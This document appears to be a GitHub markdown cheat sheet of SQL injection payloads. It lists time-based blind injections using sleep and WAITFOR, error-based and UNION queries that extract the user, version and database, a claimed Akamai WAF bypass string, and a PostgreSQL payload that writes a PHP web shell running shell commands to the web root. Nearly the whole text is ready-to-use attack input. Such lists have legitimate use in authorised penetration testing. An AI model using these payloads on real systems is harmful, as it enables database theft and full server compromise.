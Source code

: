 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
WAITFOR DELAY '0:0:5'
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
/**/WHEN(LENGTH(​version()​)=​10​)THEN(SLEEP(6*1))END
%2c(select*from(select(sleep(20)))a)
{{"sleep"%2c"13"})}${{"timeout"%2c"13"})
+UNION+SELECT+1,2,3,CONCAT(user(),version(),database()),5,6,7,8--+r0hack"}
{sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'+(select*from(select(sleep(20)))a)+'
%20and%20(select%20*%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true (sleeps 5 sec)
" AND (length(database())) = "11 --+-
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
SELECT * FROM(SELECT COUNT(*),CONCAT(database(),'--',(SELECT (ELT(1=1,version()))),'--','_Y000!_',FLOOR(RAND(1)*1))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x) a
```
## Akami WAF Bypass
```sql
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

## You can use the PostgreSQL \g command in your SQLi to create a file on the server. 
```sql
' UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --
```
**Example**<br>
[![img](https://pbs.twimg.com/media/EpNcPxHW8AEP2v1?format=jpg&name=large)](https://twitter.com/bugbountynights/status/1338515958567227393?s=20)
